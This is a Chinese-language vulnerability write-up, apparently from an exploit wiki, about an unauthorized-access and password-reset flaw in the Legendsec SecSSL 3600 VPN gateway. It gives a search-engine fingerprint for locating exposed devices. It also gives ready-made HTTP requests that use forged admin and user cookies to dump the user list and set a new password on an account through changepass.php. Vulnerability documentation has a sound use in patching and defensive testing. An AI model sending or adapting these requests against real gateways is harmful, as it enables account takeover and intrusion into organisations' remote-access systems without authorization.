 # 网神 SecSSL 3600安全接入网关系统 changepass.php任意密码修改漏洞 

    # 网神 SecSSL 3600安全接入网关系统 未授权访问漏洞

## 漏洞描述

网神 SecSSL 3600安全接入网关系统 存在未授权访问漏洞，攻击者通过漏洞可以获取用户列表，并修改用户账号密码

## 漏洞影响

<a-checkbox checked>网神 SecSSL 3600安全接入网关系统  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="安全接入网关SecSSLVPN" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1683194562640-b489ef43-07a3-45a1-8bd9-c7b311c1c0c0.png)

验证POC，获取用户列表zkec

```sql
GET /admin/group/x_group.php?id=2

Cookie: admin_id=1; gw_admin_ticket=1;
```

![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1683194650093-f31de8b5-b20e-46c4-b967-dc2d5007f861.png)

修改用户密码

```sql
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"ceshi","subAuthId":"1"}
old_pass=&password=Asd123!@#123A&repassword=Asd123!@#123A
```

![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1683194784648-9c5a03d8-e44c-406e-94f8-15bb299bc2a4.png)
